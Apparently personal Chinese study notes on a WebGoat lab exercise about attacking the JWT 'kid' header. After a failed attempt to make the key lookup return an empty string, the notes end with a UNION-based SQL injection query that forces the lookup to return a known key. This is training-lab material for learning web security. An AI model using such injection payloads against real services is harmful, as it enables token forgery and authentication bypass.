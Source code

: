 试图让kid的搜索返回为一个空字符，但是失败了
![](../../images/Pasted%20image%2020241211104952.png)

理解了，首先我要找到一个能返回确定密钥的kid

小小的注释一下，这样是有返回值的
![](../../images/Pasted%20image%2020241211105431.png)

看起来可以
```
SELECT key FROM jwt_keys WHERE id = 'test' union select id as key from jwt_keys where id='webgoat_key'--
```
